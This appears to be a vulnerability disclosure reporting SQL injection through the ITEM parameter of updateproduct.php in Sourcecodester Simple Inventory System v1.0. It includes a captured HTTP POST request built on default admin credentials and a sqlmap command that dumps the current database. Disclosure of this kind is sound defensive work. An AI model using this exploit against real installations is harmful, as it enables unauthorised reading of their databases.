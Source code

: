 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：updateproduct.php

injection parameter:$_POST['ITEM']

#### 1.Vulnerability analysis

As shown in the figure below, in updateproduct.php, after the ITEM parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through time-based injection.

![image-20240517162130368](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-4.assets/image-20240517162130368.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /updateproduct.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/tableedit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

ITEM=1&itemnumber=11111
```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240517165913203](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-4.assets/image-20240517165913203.png)
